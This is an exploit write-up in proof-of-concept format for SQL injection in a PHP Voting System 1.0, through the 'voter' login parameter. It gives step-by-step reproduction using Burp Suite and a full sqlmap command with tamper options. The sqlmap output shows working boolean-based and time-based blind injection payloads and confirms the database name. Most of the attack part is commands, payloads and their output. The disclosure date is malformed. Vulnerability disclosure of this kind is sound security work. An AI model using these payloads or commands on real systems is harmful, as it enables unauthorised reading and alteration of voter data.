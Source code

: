 # Voting_System-SQL_Injection-2
+ **Exploit Title:** Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ T**ested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Voting System 1.0 allows SQL Injection via parameter 'voter' in "/votesystem/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voters login page: "http://localhost/votesystem/"
+ Fill the voter id and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'voter' parameter to dump the database. 
```
sqlmap -r r.txt -p voter --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: voter (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: voter=11111' OR NOT 1116=1116-- lQWF&password=pass&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=11111' AND (SELECT 4895 FROM (SELECT(SLEEP(5)))tJOZ)-- AnqV&password=pass&login=
---
[18:59:39] [INFO] testing MySQL
[18:59:39] [INFO] confirming MySQL
[18:59:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:59:39] [INFO] fetching current database
[18:59:39] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/c0550210-c182-4df0-a091-73366fbaa1f2)
